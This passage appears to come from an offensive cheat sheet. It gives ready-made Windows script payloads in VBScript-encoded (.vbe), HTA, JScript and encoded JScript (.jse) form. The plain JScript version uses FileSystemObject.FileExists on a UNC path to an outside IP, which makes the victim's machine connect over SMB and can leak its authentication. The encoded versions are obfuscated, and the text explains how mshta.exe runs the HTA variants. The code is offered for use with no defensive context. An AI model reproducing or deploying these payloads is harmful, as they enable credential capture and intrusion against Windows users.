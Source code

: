 Here’ the encoded version. You can encode and save this as something.vbe

```
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
```

You can apply this in html files too. But only works with IE. You can save this as something.hta which will be an HTML Application under windows, which mshta.exe will execute it. By default it uses IE.

```
<html>
<script type="text/Vbscript.Encode">
<!--
#@~^ZQAAAA==jY~6?}'ZM2mO2}4%+1YcEUmDb2YbxocorV?H/O+h6(LnmDE#=?nO,sksn{0dWcGa+U:+XYsbVcJJzf*cF*cF*2  yczmCE~8#XSAAAA==^#~@
//-->
</script>
</html>
```

## JScript

You can save this as something.js under windows.

```javascript
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
```

You can apply the same in html files but only works with IE. Also you can save this as something.hta.

```markup
<html>
<script type="text/Jscript">
<!--
var fso = new ActiveXObject("Scripting.FileSystemObject")
fso.FileExists("//192.168.0.103/aa")
//-->
</script>
</html>
```

Here’s the encoded version. You can save this as something.jse.

```
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
```

The html version of this.

```markup
<html>
<script type="text/Jscript.Encode">
<!--
#@~^XAAAAA==-mD~6/K'xh,)mDk-+or8%mYvE?1DkaOrxTRwks+jzkYn:}8LmOE*i0dGcsrV3XkdD/vJzJFO+R8v0RZRqT2zlmE#Ux4AAA==^#~@
//-->
</script>
</html>
```
